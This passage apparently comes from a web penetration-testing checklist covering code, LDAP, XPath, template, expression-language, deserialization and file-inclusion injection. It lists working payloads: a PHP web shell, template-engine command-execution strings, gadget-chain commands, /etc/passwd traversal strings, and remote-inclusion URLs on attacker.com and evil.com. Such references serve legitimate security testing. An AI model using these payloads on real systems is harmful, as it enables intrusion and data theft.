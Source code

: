 - [ ] **Code injection** in interpreted languages (PHP, Python, etc.)
  - **Tools**: [Burp Suite](https://portswigger.net/burp), Language-specific payloads
  - **PHP**: `<?php system($_GET['cmd']); ?>`, `eval($_POST['code']);`
  - **Python**: `exec()`, `eval()`, `__import__('os').system()`
  - **Node.js**: `require('child_process').exec()`

- [ ] **LDAP injection** in directory service interactions
  - **Tools**: [Burp Suite](https://portswigger.net/burp), [LDAP Injection Scanner](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection)
  - **How-to**: Test LDAP search filters, authentication bypass
  - **Payloads**: `*)(uid=*))(|(uid=*`, `*)(|(password=*)`, `admin)(&(password=*))`

- [ ] **XPath injection** in XML data processing
  - **Tools**: [Burp Suite](https://portswigger.net/burp), [XPath Injection Scanner](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPath%20Injection)
  - **How-to**: Test XPath queries with malicious input
  - **Payloads**: `' or '1'='1`, `'] | //user/* | a['`, `') or ('1'='1`

- [ ] **Template injection** in server-side template engines
  - **Tools**: [tplmap](https://github.com/epinna/tplmap), [Burp Suite](https://portswigger.net/burp)
  - **How-to**: `python2.7 tplmap.py -u 'target.com/page?name=*'`
  - **Jinja2**: `{{7*7}}`, `{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`
  - **Twig**: `{{7*7}}`, `{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}`

- [ ] **Expression language injection** in framework-specific contexts
  - **Tools**: [Burp Suite](https://portswigger.net/burp), Framework-specific payloads
  - **Spring EL**: `${7*7}`, `#{T(java.lang.Runtime).getRuntime().exec('id')}`
  - **JSF EL**: `#{facesContext.externalContext.redirect("http://evil.com")}`

- [ ] **Deserialization** vulnerabilities in object serialization
  - **Tools**: [ysoserial](https://github.com/frohoff/ysoserial), [phpggc](https://github.com/ambionics/phpggc), [Burp Suite](https://portswigger.net/burp)
  - **Java**: `java -jar ysoserial.jar CommonsCollections1 'id' | base64`
  - **PHP**: `php -d phar.readonly=0 phpggc/phpggc -p phar -o /tmp/exploit.phar monolog/rce1 system id`
  - **Python**: Pickle exploitation, `__reduce__` method abuse

### 5.4 File-Related Injection Testing

- [ ] **Local File Inclusion (LFI)** through path manipulation
  - **Tools**: [LFISuite](https://github.com/D35m0nd142/LFISuite), [Burp Suite](https://portswigger.net/burp), [DotDotPwn](https://github.com/wireghoul/dotdotpwn)
  - **How-to**: `python lfisuite.py -u target.com/page.php?file=`
  - **Payloads**: `../../../etc/passwd`, `....//....//....//etc/passwd`, `php://filter/read=convert.base64-encode/resource=index.php`

- [ ] **Remote File Inclusion (RFI)** through URL manipulation
  - **Tools**: [Burp Suite](https://portswigger.net/burp), Manual testing, Remote payload hosting
  - **How-to**: Host malicious file on attacker server, include via vulnerable parameter
  - **Payloads**: `http://attacker.com/shell.txt`, `ftp://attacker.com/shell.php`

- [ ] **Path traversal** attacks using directory traversal sequences
  - **Tools**: [DotDotPwn](https://github.com/wireghoul/dotdotpwn), [Burp Suite](https://portswigger.net/burp), [Path Traversal Scanner](https://github.com/wireghoul/dotdotpwn)
  - **How-to**: `./dotdotpwn.pl -m http -h target.com -x 8080 -f /etc/passwd`
  - **Payloads**: `../`, `..\\`, `....//`, URL-encoded variants
